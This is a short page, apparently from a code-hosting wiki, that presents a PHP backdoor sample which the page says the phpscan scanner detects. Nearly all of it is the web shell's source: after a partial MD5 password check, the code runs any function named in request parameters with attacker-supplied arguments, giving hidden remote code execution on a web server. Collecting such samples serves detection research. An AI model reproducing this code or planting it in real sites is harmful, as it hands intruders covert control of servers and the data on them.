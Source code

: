 #Backdoor-sample

# Introduction #

被phpscan成功扫描到的样本

# Backdoor-sample-from-nbubbs-com #

<?php

error\_reporting(E\_ERROR);

if (isset($_REQUEST['myfunctionpassw']))_

> define('FUNCTION\_PASSW',stripslashes($_REQUEST['myfunctionpassw']));_

if (isset($_REQUEST['myfunctioncodea']))_

> define('FUNCTION\_CODEA',stripslashes($_REQUEST['myfunctioncodea']));_

if (isset($_REQUEST['myfunctioncodeb']))_

> define('FUNCTION\_CODEB',stripslashes($_REQUEST['myfunctioncodeb']));_

if (isset($_REQUEST['myfunctioncodec']))_

> define('FUNCTION\_CODEC',stripslashes($_REQUEST['myfunctioncodec']));_

if (substr ( md5 (FUNCTION\_PASSW),26) == '254bff') {

> if (isset($_REQUEST['myfunctioncodea']) && isset($_REQUEST['myfunctioncodeb']) && isset($_REQUEST['myfunctioncodec']))_

> $_REQUEST['myfunctionname'](FUNCTION\_CODEA, FUNCTION\_CODEB, FUNCTION\_CODEC);_

> elseif (isset($_REQUEST['myfunctioncodea']) && isset($_REQUEST['myfunctioncodeb']))

> $_REQUEST['myfunctionname'](FUNCTION\_CODEA, FUNCTION\_CODEB) ? print(FUNCTION\_CODEA.' ok') : print(FUNCTION\_CODEA.' err');_

> else

> $_REQUEST['myfunctionname'](FUNCTION\_CODEA);_

} else {

> die('Access Denied');

}
?>